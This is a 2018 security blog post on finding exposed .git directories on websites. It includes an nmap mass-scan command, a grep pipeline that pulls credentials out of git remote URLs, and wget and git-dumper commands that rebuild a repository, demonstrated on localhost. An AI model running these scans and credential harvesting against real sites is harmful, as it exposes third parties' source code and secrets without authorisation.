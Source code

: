 ```yaml
---
layout: post
title:  "Gathering some information from web exposed GIT repositories"
date:   2018-08-05
category: Web Security
excerpt_separator: <!--more-->
---
```

Hello folks,  
  
Last week, while i was doing recon on some websites, i noticed that we can still found some versioning repositories in production. I found some classic **.git** exposed, and in a lesser extent some **.svn** directories. I decided to gather a bunch of websites caught in the TOP Alexa in order to look for the proportion of .git exposed; with **112332** domains scanned (mixed TLDs), i found **453** .git exposed, which is only **0.4%**. Not bad.  

How to scan for web exposed git directories:  
```nmap --open -PN -n -p80,81,82,8000,8080,443,8443,9443 --script http-git -oA http-git -iL domains.lst```  
<!--more-->
  
*N.B: this NSE script will perform HTTP requests thanks to input FQDNs (vhosting)*  
  
Some developers may clone repository specifying their login and password as part of the url, setting this remote origin in the git configuration. For example, once your nmap done, you can spot some login:password playing with this command:  

```
$ grep -A1 Remotes http-git.nmap | grep -E ":.*:[^:]*@.*" | awk '{print $2}'
https://apixxxxxx:[redacted]@github.com/apixxxxxx/apixxxxxx.git
http://deploy:[redacted]@10.0.0.4:7990/scm/[redacted]/portal.git
...
```
  
However i was looking for other information, for example:  
 - repository's activity; last commit date for each branch
 - repo directory traversal (great to download the whole repo)
 - highlights remote url
 - displays .git/config and .gitignore files
  
Knowing a bit of a [.git repository layout](https://git-scm.com/docs/gitrepository-layout) will allow to easily retrieve this information even if you don't have any directory traversal.  
That's why i created a bash script gathering this information which you can find [here](https://github.com/phackt/pentest/blob/master/fingerprint/web/git.sh).  
  
![image1]({{ site.url }}/public/images/git-exposed/gittool.png)
  
If a repository seems interesting and has directory traversal and/or leaks in its remote url some credentials, you can simply download or clone the repository. For example to download the whole repo you can do the following:  
```
$ wget --recursive --no-parent http://localhost/phackt.github.io/.git/ && \
cd localhost/phackt.github.io && \
git reset --hard
```  
  
Now what happens if you didn't find any creds (most of the cases) and **directory traversal is not enabled** ? I will not reinvent the wheel and advice you to read this [article](https://en.internetwache.org/dont-publicly-expose-git-or-how-we-downloaded-your-websites-sourcecode-an-analysis-of-alexas-1m-28-07-2015/) amongst others.  

```
$ curl -I http://localhost/phackt.github.io/.git/
HTTP/1.1 403 Forbidden
Date: Sat, 11 Aug 2018 17:00:04 GMT
Server: Apache/2.4.33 (Debian)
Content-Type: text/html; charset=iso-8859-1
```  
  
I gave a try to another [git dumper tool](https://github.com/arthaud/git-dumper):  
  
```
$ git clone https://github.com/arthaud/git-dumper.git && cd git-dumper
$ pip install -r requirements.txt
$ ./git-dumper.py http://localhost/phackt.github.io/.git/ /tmp/repo
[-] Testing http://localhost/phackt.github.io/.git/HEAD [200]
[-] Testing http://localhost/phackt.github.io/.git/ [403]
[-] Fetching common files
[-] Fetching http://localhost/phackt.github.io/.git/COMMIT_EDITMSG [200]
[-] Fetching http://localhost/phackt.github.io/.git/description [200]
[-] Fetching http://localhost/phackt.github.io/.git/hooks/commit-msg.sample [200]
[-] Fetching http://localhost/phackt.github.io/.git/hooks/post-commit.sample [302]
[-] Fetching http://localhost/phackt.github.io/.git/hooks/post-receive.sample [302]
[-] Fetching http://localhost/phackt.github.io/.git/hooks/applypatch-msg.sample [200]
[-] Fetching http://localhost/phackt.github.io/.git/hooks/pre-applypatch.sample [200]
[-] Fetching http://localhost/phackt.github.io/.git/hooks/pre-commit.sample [200]
...
[-] Running git checkout .
```  
  
We can now inspect our freshly rebuilt repository:  

```
$ cd /tmp/repo && ls -1
about.md
categories.md
CNAME
_config.yml
feed.xml
_includes
index.html
_layouts
POC
_posts
public
_sass
```  
  
See you soon,  
Cheers.